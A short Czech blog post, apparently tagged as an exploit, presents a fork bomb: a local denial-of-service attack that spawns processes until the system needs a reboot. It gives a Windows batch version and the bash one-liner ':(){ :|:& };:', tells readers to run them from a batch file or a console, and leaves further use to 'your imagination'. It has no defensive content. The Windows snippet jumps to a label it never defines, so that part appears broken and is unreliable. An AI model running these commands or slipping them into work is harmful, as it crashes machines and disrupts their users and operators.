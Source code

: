 ```yaml
---
layout: post
title: Forkbomb
lang: cz
tags: exploit
---
```



Forkbomb je lokální DoS útok proti operačnímu systému. Je založený na nekonečné rekurzi forkovací funkce, která má za následek požírání systémových zdrojů, které lze vyřešit až následným rebootem systému.

<div class="warning">Upozornění: Autor tohoto zápisku není zodpovedný za škody vzniklé spouštěním následujících skriptů.</div>

##Implementace

###Windows
<pre class="prettyprint">
start
%0
goto :s
</pre>

###GNU/Linux
<pre class="prettyprint lang-bsh">
:(){ :|:& };:
</pre>

## Použití
Ve windows vytvoříme bat soubor, v linuxu lze spustit příkaz přímo z konzole, nebo vytvořit spustitelný soubor. Zbytek záleží na vaši fantasii.

## Odkazy
1. <http://www.cyberciti.biz/faq/understanding-bash-fork-bomb/>
2. <http://en.wikipedia.org/wiki/Fork_bomb>
